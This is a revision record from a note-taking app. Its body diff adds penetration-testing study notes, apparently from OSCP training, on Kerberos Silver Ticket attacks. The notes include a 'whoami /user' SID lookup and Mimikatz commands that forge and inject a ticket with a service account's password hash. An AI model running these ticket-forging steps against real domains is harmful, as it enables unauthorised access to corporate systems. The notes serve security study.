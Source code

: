 id: 953a1e4c998245228273a9b83ba909c8
parent_id: b3c64976af3b438694bcaeec6d845e37
item_type: 1
item_id: 07865553b30a4727ac88b108b5e909ef
item_updated_time: 1643595649484
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"SPN \"],[-1,\", then use the previous methods\"],[1,\"and it is a local admin in any server, then use the previous methods\\\n\\\nUser and Group permissions in the service ticket are not verified by the application - app blindly trusts the integrity of the service ticket\\\n\\\n- Forge our own service ticket to access the target resource with any permissions we desire - **Silver Ticket**\\\n\\\n![b2722ba9be0c5bb4eb1a7e4a5d65dfd8.png](:/acc30ecf76ca497ca2426b9405549a62)\\\n\\\nWe can get the domain SID by using:\\\n\\\n> whoami /user\\\n\\\n![5d5e2a2710b9c078c4247c651997436b.png](:/bd0cf4f1c7e24611a040622ddf381854)\\\n\\\n![8faa77505f9635a0382d3e60d856198c.png](:/817109c8049a46b29aa916897651b50c)\\\n\\\nMethod to craft the ticket in Mimikatz\\\n\\\n> kerberos::purge\\\n> \\\n> kerberos::list # make sure it is empty\\\n> \\\n> kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-4038953314-3014849035-1274281563 /target:CorpWebServer.corp.com /service:HTTP /rc4:2892d26cdf84d7a70e2eb3b9f05c425e /ptt\\\n\\\n/rc4: the password hash of the iss_service service account\\\n\\\n![9fc60b320e5aa47a7e225ce1359d6855.png](:/c2469c7d959143ee983bd3c924f4c851)\\\n\\\nhttps://github.com/backlion/Offensive-Security-OSCP-Cheatsheets/blob/master/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets.md\"]],\"start1\":3879,\"start2\":3879,\"length1\":35,\"length2\":1206}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-31T02:23:37.334Z
created_time: 2022-01-31T02:23:37.334Z
type_: 13